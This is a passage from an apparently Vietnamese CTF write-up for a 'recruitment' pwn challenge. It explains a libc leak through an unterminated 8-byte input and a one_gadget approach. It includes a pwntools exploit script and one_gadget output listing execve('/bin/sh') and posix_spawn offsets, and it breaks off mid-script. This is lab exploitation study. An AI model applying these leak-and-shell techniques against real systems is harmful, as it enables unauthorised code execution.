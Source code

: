 ![image](https://hackmd.io/_uploads/rkCTkUawke.png)

- vậy ta sẽ sử dụng one_gadget hoặc là 1 gadget nào đó giúp giảm stack đi để stack pivot vào payload của ta , Tuy nhiên thì bài này không có thằng nào nên ta phải dùng ```one_gadget``` , vậy ta cũng phải leak libc , cách leak thì có lẽ là dùng hàm in  , và lúc này ta lại nhớ đến hàm read mà sử dụng để input vô ```age```

- vậy ở đây ta cần input 8 bytes thì khi in nó sẽ nối địa chỉ kế tiếp 

![image](https://hackmd.io/_uploads/HJOUZ86wJg.png)





- sau 1 hồi thử tìm các gadget xem có pivot được không thì mình cũng không thấy , vậy chỉ dùng one_gadget được thôi


```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./recruitment_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

p = process()
#gdb.attach(p,gdbscript='''
#           b*0x00000000004031B2
#           b*0x0000000000402A7B
#           ''')

input()
p.sendline(b'1')
p.sendlineafter(b'Name:  ',b'loideptrai')
p.sendlineafter(b'Class: ',b'cc')
p.sendafter(b'Age: ',b'loidep12')

p.sendline(b'2')
p.recvuntil(b'loidep12')
leak = u64(p.recv(6).ljust(8,b'\x00'))
log.info(f'leak: {hex(leak)}')
libc.address = leak - 0x93bca
log.info(f'libc: {hex(libc.address)}')

"""
0x583dc posix_spawn(rsp+0xc, "/bin/sh", 0, rbx, rsp+0x50, environ)
constraints:
  address rsp+0x68 is writable
  rsp & 0xf == 0
  rax == NULL || {"sh", rax, rip+0x17302e, r12, ...} is a valid argv
  rbx == NULL || (u16)[rbx] == NULL

0x583e3 posix_spawn(rsp+0xc, "/bin/sh", 0, rbx, rsp+0x50, environ)
constraints:
  address rsp+0x68 is writable
  rsp & 0xf == 0
  rcx == NULL || {rcx, rax, rip+0x17302e, r12, ...} is a valid argv
  rbx == NULL || (u16)[rbx] == NULL

0xef4ce execve("/bin/sh", rbp-0x50, r12)
constraints:
  address rbp-0x48 is writable
```